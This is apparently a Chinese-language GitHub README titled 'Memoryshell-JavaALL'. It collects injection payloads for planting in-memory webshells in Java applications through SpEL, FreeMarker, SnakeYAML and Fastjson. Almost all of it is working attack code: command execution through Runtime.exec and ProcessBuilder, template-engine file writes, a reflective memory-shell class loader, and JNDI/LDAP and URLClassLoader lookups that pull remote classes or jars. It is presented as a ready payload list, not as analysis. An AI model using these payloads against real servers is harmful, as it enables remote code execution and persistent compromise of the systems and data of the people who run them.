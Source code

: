 # Memoryshell-JavaALL
收集内存马打入方式

## SPEL 

不加模板解析的payload
```
T(java.lang.Runtime).getRuntime().exec("calc")
new+java.lang.ProcessBuilder("cmd","/c","Calc").start()
```
加模板解析的payload
```
#{new java.lang.ProcessBuilder({'calc'}).start()}
```
可以回显时使用
```
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
```
可以打入内存马高版本Spring Core 受限
```
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}
```
使用JNDI 注入利用 在Springboot 中不适用，因为它会程序启动时初始化InitialContext
```
#{T(java.lang.System).setProperty('com.sun.jndi.ldap.object.trustURLCodebase', 'true')} 
#{new javax.management.remote.rmi.RMIConnector(new javax.management.remote.JMXServiceURL("service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc"), new java.util.Hashtable()).connect()}
```
## FreeMarker 

执行命令
```
${"freemarker.template.utility.Execute"?new()("id")}
${"freemarker.template.utility.Execute"?new()("Calc")}
<#assign value="freemarker.template.utility.Execute"?new()>${value("Calc")}
```
写文件
```
${"freemarker.template.utility.ObjectConstructor"?new()("java.io.FileWriter","/tmp/hh.txt").append("<>").close()}
```
读文件
```
${"freemarker.template.utility.ObjectConstructor"?new()(java.io.FileWriter("/tmp/hh.txt").append("ttt").close())}
```
使用SPEL利用
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc\")").getValue()}
```
使用SPEL 进行JNDI
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("new+javax.management.remote.rmi.RMIConnector(new+javax.management.remote.JMXServiceURL(\"service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc\"),new+java.util.Hashtable()).connect()").getValue()}
```
使用SPEL 加载内存马
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(org.springframework.cglib.core.ReflectUtils).defineClass('SpringInterceptor',T(org.springframework.util.Base64Utils).decodeFromString(\"yv66vgAAADQA5。。。\"),new+javax.management.loading.MLet(new+java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()").getValue()}
```
使用Jython 
```
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```
## YAML

ftp 可以换为HTTP 及其他支持协议
```
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["ftp://127.0.0.1:8000/yaml-payload4.jar"]]]]
```
## Fastjson

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://xx.xx.xx.xx:9102/123",
        "autoCommit":true
    }
}
```

------------------------------------------------------------------------------------
各位师傅有建议及其他Payload 带带弟弟啊
未完待续.....
